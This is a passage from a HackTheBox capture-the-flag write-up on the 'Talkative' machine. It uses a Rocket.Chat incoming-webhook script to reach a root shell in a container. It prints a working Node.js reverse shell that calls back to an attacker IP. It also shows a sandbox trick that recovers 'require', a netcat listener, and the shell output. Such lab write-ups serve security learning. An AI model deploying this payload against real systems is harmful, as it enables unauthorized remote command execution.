 **Then, we can call the webhook via the URL:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181844.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181854.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181901.png)

> Note: I changed to "Incoming Webhook Integration", as it's easier to exploit.

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:19:17(HKT)]
└> nc -lnvp 4443          
listening on [any] 4443 ...
```

**However, the reverse shell payload doesn't work...**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:21:19(HKT)]
└> curl http://talkative.htb:3000/hooks/yrGtgcuoABYtBq5nc/9XPMCbtQotENyDwtogtujo89EvX7n7aQRaRa4y4roaFcKwJR
{"success":false}
```

After reading a [writeup from 0xdf](https://0xdf.gitlab.io/2022/08/27/htb-talkative.html#webhook-integration), looks like the `require` keyword may not be available in the given context.

**To fix that, we can add the following line:**
```javascript
const require = console.log.constructor('return process.mainModule.require')();
```

**Fixed Node.js reverse shell payload:**
```js
(function(){
    const require = console.log.constructor('return process.mainModule.require')();
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4443, "10.10.14.6", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

**Next, update the script again and it should work:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:19:17(HKT)]
└> nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.155] 38404
whoami; hostname; id; hostname -i
root
c150397ccd63
uid=0(root) gid=0(root) groups=0(root)
172.17.0.3
```
